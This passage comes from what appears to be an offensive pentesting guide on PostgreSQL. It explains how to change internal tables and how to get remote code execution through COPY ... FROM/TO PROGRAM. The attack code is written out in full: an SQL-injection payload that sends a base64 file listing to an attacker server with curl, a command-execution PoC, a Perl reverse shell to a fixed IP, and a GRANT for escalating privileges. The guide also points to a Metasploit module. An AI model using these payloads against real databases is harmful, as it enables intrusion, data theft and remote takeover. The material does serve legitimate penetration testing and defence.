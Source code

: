     ```sql
    SELECT lo_from_bytea(133337, (SELECT REPEAT('a', 128*1024*1024))::bytea)
    ```

8.  You should now see updated table values in the PostgreSQL.

You can also become a superadmin by editing the `pg_authid` table. **See** [**the following section**](pentesting-postgresql.md#privesc-by-overwriting-internal-postgresql-tables).

## RCE

### **RCE to program**

Since[ version 9.3](https://www.postgresql.org/docs/9.3/release-9-3.html), only **super users** and member of the group **`pg_execute_server_program`** can use copy for RCE (example with exfiltration:

```sql
'; copy (SELECT '') to program 'curl http://YOUR-SERVER?f=`ls -l|base64`'-- -
```

Example to exec:

```bash
#PoC
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;

#Reverse shell
#Notice that in order to scape a single quote you need to put 2 single quotes
COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.0.104:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```

> [!WARNING]
> Remember that if you aren't super user but has the **`CREATEROLE`** permissions you can **make yourself member of that group:**
>
> ```sql
> GRANT pg_execute_server_program TO username;
> ```
>
> [**More info.**](pentesting-postgresql.md#privilege-escalation-with-createrole)

Or use the `multi/postgres/postgres_copy_from_program_cmd_exec` module from **metasploit**.\
More information about this vulnerability [**here**](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5). While reported as CVE-2019-9193, Postges declared this was a [feature and will not be fixed](https://www.postgresql.org/about/news/cve-2019-9193-not-a-security-vulnerability-1935/).

### RCE with PostgreSQL Languages
